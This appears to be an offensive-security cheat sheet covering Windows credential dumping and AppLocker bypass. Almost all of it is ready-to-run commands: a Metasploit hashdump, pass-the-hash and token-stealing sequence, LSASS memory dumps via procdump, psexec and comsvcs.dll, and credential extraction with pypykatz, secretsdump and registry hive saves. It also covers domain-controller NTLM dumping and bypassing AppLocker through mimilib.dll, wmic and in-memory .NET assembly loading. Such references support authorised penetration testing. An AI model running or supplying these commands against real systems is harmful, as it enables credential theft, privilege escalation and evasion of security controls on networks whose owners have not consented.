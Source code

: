 ## Extracting Credentials   
- Possible attack sequence with metasploit:  
  1. Run Metasploit's "hashdump" to get hashes: `hashdump`  
  2. Start a process under the desired identity: `mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:"powershell -w hidden"`  
  3. In Metasploit, abuse the security token of the just spawn process: `steal_token 1234`  
  4. Do now whatever you want in metasploit with these privileges (e.g. list\\target\c$, upload and run binaries, perform WMIC commands, ...)
- Create minidump: (easiest with right click in taskmgr)  
  `procdump64.exe -accepteula -ma lsass.exe lsass.dmp`  
   Remote: `psexec.py -c procdump64.exe 'example.com/username:P@ssw0rd@foobar.example.com' '-accepteula -ma lsass.exe c:\lsass.dmp'`  
- On Kali, you can use pypykatz to extract the creds from the lsass.dmp:  
  Install pypykatz:  
  `# pip3 install pypykatz`  
  Extract the creds from the lsass.dmp:   
  `# pypykatz lsa minidump lsass.dmp`  
- Using registry (security,sam and system)   
  `C:\> reg.exe save hklm\sam c:\temp\sam.save`   
  `C:\> reg.exe save hklm\security c:\temp\security.save`   
  `C:\> reg.exe save hklm\system c:\temp\system.save`   
  `# secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`   
- Using PowerShell:   
  `Powershell -c rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump [process ID of lsass.exe] c:\temp\candies.bin full`   
- Extract specific users creds from DC:   
  `impacket-secretsdump 'domain.local/username:password'@<DC-IP> -just-dc-user <username> -just-dc-ntlm`   
- Extract creds from vmdk/vhd/vhdx files: https://github.com/CCob/Volumiser   
- SCCM share (SCCMContentLib$) enumeration and credential extraction: https://github.com/1njected/CMLoot    

### Python NTLM hash
```python
import hashlib,binascii
hash = hashlib.new('md4', "Somepass1".encode('utf-16le')).digest()
password = "Somepass1"
print ("Password before hash: ",password)
print ("Hashed password: ",binascii.hexlify(hash))
```


## Bypass Applocker
- Bypass Applocker with mimilib.dll to run arbitrary executables:  
  `rundll32 c:\path\mimilib.dll,start d:\otherpath\a.exe`  
- Run PowerShell.exe via wmic.exe:   
  `wmic.exe process call create "cmd /c powershell"`   
- Spawn process using WMI via PowerShell:   
  `([WMICLASS]"\\localhost\ROOT\CIMV2:win32_process").Create("calc.exe")`   
- Load a binary into byte array and run it from powershell:   
  `[byte[]]$bytes = get-content -encoding byte -path C:\Users\username\Desktop\Snaffler.exe`   
  `$asm = [System.Reflection.Assembly]::Load($bytes)`   
  `$vars = New-Object System.Collections.Generic.List[System.Object]`   
  `$vars.Add("-s")`   
  `$vars.Add("-o")`   
  `$vars.Add("snaffler.log")`   
  `$passed = [string[]]$vars.ToArray()`   
  `$asm.EntryPoint.Invoke($null, @(,$passed))`   
